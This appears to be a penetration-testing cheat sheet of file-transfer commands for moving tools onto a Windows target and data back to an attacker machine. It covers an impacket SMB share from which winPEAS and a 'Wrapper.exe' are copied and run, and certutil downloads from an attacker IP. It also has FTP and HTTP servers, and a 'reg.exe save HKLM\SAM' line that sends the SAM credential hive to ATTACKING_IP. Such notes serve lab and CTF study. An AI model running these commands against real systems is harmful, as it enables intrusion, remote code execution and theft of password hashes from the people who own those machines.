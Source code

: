 # File Upload

## SMB Server

```
On attacker box share current directory

sudo impacket-smbserver a .

On target box copy file to share

cd %tmp%
copy \\10.11.9.134\a\winPEAS.bat
```

```
sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword

net use \\10.50.195.170\share /USER:user s3cureP@ssword
copy \\10.50.195.170\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe
"%TEMP%\wrapper-USERNAME.exe"
```

```
Move files to attacker machine

reg.exe save HKLM\SAM \\ATTACKING_IP\share\sam.bak
or
move sam.bak \\ATTACKING_IP\share\sam.bak
```

## Downloading winPEAS files with Certutil

```
winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe

certutil -urlcache -f http://10.10.15.5/winPEASx64.exe winpeas.exe
```

## FTP

```
python -m pyftplib 21 (attacker machine)
ftp ATTACKER_IP
```

## HTTP

```
python2 -m SimpleHTTPServer 8000
```